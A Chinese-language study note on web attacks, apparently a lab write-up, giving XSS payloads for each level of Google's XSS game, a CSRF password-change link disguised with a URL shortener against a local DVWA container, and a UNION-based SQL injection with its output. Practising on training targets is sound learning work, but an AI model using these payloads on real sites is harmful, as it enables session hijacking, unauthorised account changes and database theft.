 ```yaml
---
title: "XSS,CSRF,SQL注入"
sidebar_position: 1
---
```


## XSS

> XSS（Cross-Site Scripting）攻击是通过在网页中注入恶意脚本代码，当其他用户浏览该网页时，恶意脚本会在用户的浏览器中执行，从而盗取用户信息、篡改网页内容等。

测试： https://xss-game.appspot.com/

这个题目是一个逐渐变难的过程，前面用过的办法，后面都会被过滤掉。



Leve1:  没做任何转义

```html
<script>alert()</script>
```

Leve2: <script></script>标签都被过滤不能生效, 使用其他标签就可以绕过了。

**解法1:**插入一个带有无效 URL 的*图像标记*和一个将执行 JavaScript 警报的onerror属性

```html
<img src='x' onerror='alert()'>
```





Leve3: 

```html
问题1:  会截取路由的第一个参数   
chooseTab(unescape(self.location.hash.substr(1)) || "1");

问题2:  通过用单引号关闭src属性来欺骗它，然后像上一关一样添加带有警报函数的onerror属性，并使用双斜杠注释“.jpg”部分
html += "<img src='/static/level3/cloud" + num + ".jpg' />";


解法1:使用：' onerror='alert();//
<img src='/static/level3/cloud1' onerror='alert();//.jpg' />

解法2:'/><sCript>alert();</scrIpt> 因为没有处理大小写还能用script
<img src='/static/level3/cloud1'/><sCript>alert();</scrIpt>.jpg' />
```

Leve4:

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />

使用: ');alert();// 相当于让这个函数结束
<img src="/static/loading.gif" onload="startTimer('{{ ');alert();// }}');" />
```

Leve5: confim.html中的值是取自路径信息上的

```html
<a href="{{ next }}">Next >></a> 这个是取自路径信息

使用javascript:alert() 修改路径，然后点击go，在点next
...signup?next=javascript:alert() 
```

Leve6: 下面显示的内容是路径信息，就需要对路径做变化

```js
代码里面显示https不让请求资源，把https换成http    
if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
使用： data:text/plain,alert('xss')
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

### CSRF

> CSRF（Cross-Site Request Forgery）攻击是一种利用用户身份进行未授权操作的攻击方式。攻击者通过诱导用户访问一个恶意网站或点击恶意链接，利用用户在该网站上的会话（如Cookie）向目标网站发送请求，执行一些未授权的操作，如修改个人信息、转账等。

```shell
docker pull vulnerables/web-dvwa 
docker run -d --rm  --name dvwa  -it -p 80:80 vulnerables/web-dvwa  /bin/bash


localhost:80 
admin;password
```

![image-20240907233808839](./../images/image-20240907233808839.png)

这个是一个修改密码的例子



短链接

https://xiaomark.com/



我们修改密码的链接

http://localhost/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#

变成了这个东西

https://sourl.cn/MQkq9G 

### SQL注入

> SQL注入攻击是通过在Web表单输入或URL查询字符串中插入恶意SQL代码，当这些输入被服务器端的数据库查询处理时，攻击者可以执行任意SQL命令，从而获取数据库中的敏感信息、修改数据等。

![image-20240907234503390](./../images/image-20240907234503390.png)

输入 1' UNION SELECT 1,database() from information_schema.schemata#

提示

```js
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: admin
Surname: admin
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: 1
Surname: dvwa
```